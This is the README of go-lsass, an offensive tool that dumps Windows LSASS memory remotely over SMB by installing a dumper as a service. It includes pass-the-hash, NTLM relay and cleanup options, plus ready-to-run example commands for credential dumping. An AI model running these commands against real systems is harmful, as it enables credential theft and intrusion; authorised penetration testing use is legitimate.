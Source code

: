 # go-lsass

## Description
Package go-lsass is a tool built to dump the memory of the LSASS process
remotely by uploading a local LSASS dumper, executing it as a service and then
retrieve the dump file using SMB. It is built on top of the library
[go-smb](https://github.com/jfjallid/go-smb) and is designed to primarily work with the
[LSASS dumper](https://github.com/jfjallid/processdumper).

**NOTE** that the LSASS dumper utility is not included in this repo but has to be
downloaded, compiled and then included by the --dumper flag or placed in the
current directory with a name of pdumpsvc.exe.
Also note that the dumpfile when created by the tool processdumper will be
inverted, e.g., every byte will be XOR:ed with 0xFF.

## Usage
```
Usage: ./go-lsass [options]

options:
      --host                Hostname or ip address of remote server. Must be hostname when using Kerberos
  -P, --port                SMB Port (default 445)
  -d, --domain              Domain name to use for login
  -u, --user                Username
  -p, --pass                Password
  -n, --no-pass             Disable password prompt and send no credentials
      --hash                Hex encoded NT Hash for user password
      --local               Authenticate as a local user instead of domain user
  -k, --kerberos            Use Kerberos authentication. (KRB5CCNAME will be checked on Linux)
      --dc-ip               Optionally specify ip of KDC when using Kerberos authentication
      --target-ip           Optionally specify ip of target when using Kerberos authentication
      --aes-key             Use a hex encoded AES128/256 key for Kerberos authentication
  -t, --timeout             Dial timeout in seconds (default 5)
      --relay               Start an SMB listener that will relay incoming
                            NTLM authentications to the remote server and
                            use that connection. NOTE that this forces SMB 2.1
                            without encryption.
      --relay-port <port>   Listening port for relay (default 445)
      --socks-host <target> Establish connection via a SOCKS5 proxy server
      --socks-port <port>   SOCKS5 proxy port (default 1080)
      --cleanup             Perform a cleanup of service binary, service, and dumpfile
      --dumper <path>       Path to local lsass dump utility (default pdumpsvc.exe)
      --service <name>      Name of service that will be created to run the lsass dumper (default MiscSVC)
      --service-filename    Name of service binary (default misc.exe)
      --service-dir         Remote path on C: to store service binary (default C:\windows\)
      --dumpfile            Name of lsass dump file written to disk (default misc.log)
      --dumpdir             Remote path on C: to temporarily store the lsass dump (default C:\windows\)
      --output              Path to where to store the lsass dump locally (default lsass.dmp)
      --modify              Will modify the service if it already exists. EXPERIMENTAL (default false)
      --restore             Restores a modified service config when using --cleanup flag EXPERIMENTAL (default false)
      --backup-file         File to store previous service config in or restore from
                            when modifying an existing service (default svc-backup.json)
      --noenc               Disable smb encryption
      --smb2                Force smb 2.1
      --debug               Enable debug logging
      --verbose             Enable verbose logging
  -v, --version             Show version
```

## Using a custom lsass dumper
The default dumper tested with this tool is
https://github.com/jfjallid/processdumper. It should be downloaded and compiled
with `make service` to create a PE32 file that can be executed as a Windows
service.

Support for other LSASS dumper binaries is limited to binaries that can be
executed as a Windows service and which accepts two cmdline arguments:
"lsass.exe" and location of where to store the dumpfile which is a combination
of the two arguments --dumpdir and --dumpfile. With default settings, the two
arguments to the service binary are: "lsass.exe" and "C:\windows\misc.log"

## Examples

### Dump LSASS on a domain joined machine using a local account

```
./go-lsass --host server001 --local --user Administrator --pass adminPass123 --dumper pdumpsvc.exe
```

### Dump LSASS on a domain joined machine using a domain user with a custom directory for the service binary and dump file 

```
./go-lsass --host server001 -d test.local --user testuser --pass secretPass123 --service-dir C:\\windows\\temp\\ --dumpdir C:\\windows\\temp\\
```

### Cleanup remote files and service manually when automatic cleanup failed
Note that if any of the following custom flags were used during deployment,
they are also required during cleanup:

- --service
- --service-filename
- --service-dir
- --dumpfile
- --dumpdir

```
./go-lsass --host server001 -d test.local --user testuser --pass secretPass123 --cleanup
```

When using the `--modify` flag, if the service exists it will be overwritten and used for the dump.
The service's config will be written to disk and later restored by the automatic cleanup.
If manual cleanup is performed, use the `--restore` flag to replace the service config instead of
deleting the service which is the default behavior.

Also note that the replacement and restoration of a service's configuration is not a full restoration
as go-smb currently does not support modification of the Dependencies, LoadOrderGroup, and TagId settings.
So if those are in use by the modified service, their values might get lost.
